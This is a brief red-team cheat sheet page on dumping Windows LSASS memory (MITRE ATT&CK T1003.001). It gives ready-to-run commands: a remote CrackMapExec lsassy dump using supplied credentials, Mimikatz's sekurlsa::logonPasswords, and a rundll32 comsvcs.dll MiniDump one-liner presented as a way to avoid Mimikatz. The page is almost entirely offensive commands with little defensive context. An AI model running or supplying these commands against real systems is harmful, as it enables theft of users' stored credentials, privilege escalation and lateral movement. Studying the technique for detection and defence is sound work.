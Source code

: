 ```yaml
---
description: MITRE ATT&CK, Credential Access, Sub-technique T1003.001
---
```


# LSASS Memory

> Adversaries commonly abuse the [Local Security Authority Subsystem Service](https://attack.mitre.org/techniques/T1003/001/) (LSASS) to dump credentials for privilege escalation, data theft, and lateral movement. The process is a fruitful target for adversaries because of the sheer amount of sensitive information it stores in memory.

### Dumping LSASS

```bash
# Dumping LSASS remotely with CrackMapExec
crackmapexec smb $ip -u $username -p $password -M lsassy

# Dumping LSASS with Mimikatz
sekurlsa::logonPasswords
```

### Dumping LSASS without Mimikatz

```bash
## https://twitter.com/inversecos/status/1450331995112804358?s=20&t=rMzsQI6ENH2SYVVaTYTqAA
rundll32.exe comsvcs.dll, MiniDump (Get-Process lsass).Id Temp\output.dmp full;Wait-Process -Id (Get-Process rundll32).id
```

### References

{% embed url="https://redcanary.com/threat-detection-report/techniques/lsass-memory/" %}

{% embed url="https://attack.mitre.org/techniques/T1003/001/" %}
